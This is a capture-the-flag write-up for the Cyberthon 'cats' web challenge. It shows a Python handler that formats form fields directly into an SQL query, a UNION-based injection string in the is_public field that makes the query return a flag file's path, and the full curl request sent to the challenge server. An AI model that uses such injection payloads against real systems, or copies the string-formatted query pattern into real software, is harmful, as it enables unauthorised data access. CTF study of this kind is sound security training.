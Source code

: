 ```yaml
---
ai_date: 2025-04-27 05:12:02
ai_summary: SQL Injection vulnerability allows retrieving the 'flag.jpg' from the dogs directory
ai_tags:
  - sql
  - injection
  - rce
created: 2024-06-11T01:33
updated: 2025-07-14T09:46
---
```


> APOCALYPSE has recently started a new business venture, a website for people to download cute images of cats! While
> that seems like a relatively normal kind of business, our intel says that it might be more than what it appears to be.
> So we've got to keep a close eye on it. Currently, their service has only cat pictures.
>
> However rumors are going around that they're venturing into dogs very soon. Could u confirm the rumour for me?

Ignoring much of the code, we can find the important stuff here

```python
assert os.path.exists("/app/images/dogs/flag.jpg")


async def download(request: Request):
    form = {**(await request.form())}
    query = {"is_public": "yes"}
    if form.get("species") is None: return "Fail"
    form["species"] = hashlib.md5(form["species"].encode()).hexdigest()
    query.update(form)
    result = await database.fetch_one(
        query="SELECT filename FROM cats WHERE is_public='{is_public}' AND species='{species}'".format(**query)
    )
    if not result or ".." in result["filename"]: return "Fail"
    return FileResponse(os.path.join("/app", "images", "cats", result["filename"]))
```

We have to send the flag from `/app/images/dogs/flag.jpg`, so the SQL query just have to return that value.

```sql
SELECT filename
FROM cats
WHERE is_public = '{is_public}'
  AND species = '{species}'
```

With some simple SQL injection

```python
species="tabby"
is_public="true' AND 1=2 UNION SELECT '/app/images/dogs/flag.jpg' --"
```

It becomes

```sql
SELECT filename
FROM cats
WHERE is_public = 'true'
  AND 1 = 2
UNION
SELECT '/app/images/dogs/flag.jpg' --' AND species='[some hash]'
```

Thus we form the request

```bash
## Only Cats
curl -X "POST" "http://chals.cyberthon22f.ctf.sg:40501/download/" \
     -H 'Content-Type: application/x-www-form-urlencoded; charset=utf-8' \
     --data-urlencode "species=tabby" \
     --data-urlencode "is_public=true' AND 1=2 UNION SELECT '/app/images/dogs/flag.jpg' --"
```

![img.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1718084106/2024/06/82e66c049de002219a3ee9a267cfa0a6.png)

And heres our flag

```flag
Cyberthon{why_15_1t_4Lw4y5_d0g}
```